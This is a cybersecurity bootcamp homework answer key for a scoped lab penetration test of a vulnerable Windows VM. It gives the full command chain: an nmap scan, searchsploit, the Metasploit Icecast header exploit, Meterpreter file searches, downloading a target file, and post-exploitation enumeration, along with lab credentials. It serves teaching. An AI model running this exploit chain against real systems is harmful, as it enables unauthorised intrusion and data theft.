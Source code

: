 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

      ![icecast](images/icecast.jpg)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_SearchSploit icecast_**

     ![searchsploit](images/searchsploit.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_msfconsole_**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_use exploit/windows/http/icecast_header_**
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_use 0_**
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_set RHOSTS 192.168.0.20_**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_exploit_**
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_search -f *secretfile*.txt_**
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_search -f *recipe*.txt_**
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **_download /users/ieuser/documents/Drinks.recipe.txt_**
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

**_run post/multi/recon/local_exploit_suggester_**

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_run post/windows/gather/enum_logged_on_users_**
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_shell_**
 
C. Run the command that displays the target's computer system information:

   > Answer: **_systeminfo_**



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
